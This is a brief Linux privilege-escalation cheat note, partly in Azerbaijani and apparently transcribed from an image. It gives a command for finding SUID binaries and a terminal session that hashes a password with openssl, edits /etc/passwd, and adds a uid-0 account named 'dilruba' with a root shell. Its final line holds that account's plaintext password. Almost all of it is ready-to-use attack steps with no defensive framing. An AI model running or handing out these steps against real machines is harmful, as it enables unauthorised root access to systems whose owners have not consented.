 ## SHOWING SUID

# find / -perm -u=s -type f 2>/dev/null

## ROOTA QALXMAQ etc/passwd -e yaza biliriksə

user7@polobox:/$ openssl passwd -1
Password: 
Verifying - Password: 
$1$.wwZIHut$tbO9u/NbSlGA/IkwxDcEX0
user7@polobox:/$ ^C
user7@polobox:/$ nano /etc/passwd
user7@polobox:/$ su dilruba


# dilruba:$1$.wwZIHut$tbO9u/NbSlGA/IkwxDcEX0:0:0:root:/root:/bin/bash


# passwd----dil1123
